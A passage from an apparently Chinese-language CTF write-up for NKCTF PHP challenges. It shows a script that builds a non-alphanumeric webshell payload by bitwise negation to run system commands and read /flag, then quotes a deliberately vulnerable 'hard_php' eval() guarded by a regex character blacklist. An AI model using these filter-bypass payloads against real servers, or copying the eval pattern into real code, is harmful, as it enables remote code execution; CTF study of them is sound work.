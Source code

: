 由于`[`被转为下划线`_`，并导致后面的非法字符不转换，所以实际传入的变量名为：

```
?NS_CTF.go
```



第五、六层：非字母数字webshell，我们使用取反`~`绕过

```php
<?php
$func = "system";
$cmd = "ls /";
echo "(~".urlencode(~$func).")"."(~".urlencode(~$cmd).");";
```

![image-20230327144832948](https://s2.loli.net/2023/03/27/d7Z5e2OMhAu6EJ4.png)

读到flag在根目录，然后使用tac查看：

```
tac /flag
```

得到flag





#### hard_php

```php
<?php
// not only ++
error_reporting(0);
highlight_file(__FILE__);

if (isset($_POST['NKCTF'])) {
    $NK = $_POST['NKCTF'];
    if (is_string($NK)) {
        if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$NK) && strlen($NK) < 105){
            eval($NK);
        }else{
            echo("hacker!!!");
        }
    }else{
        phpinfo();
    }
}
?>
```

过滤了好多

```php
if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$NK) && strlen($NK) < 105){
```
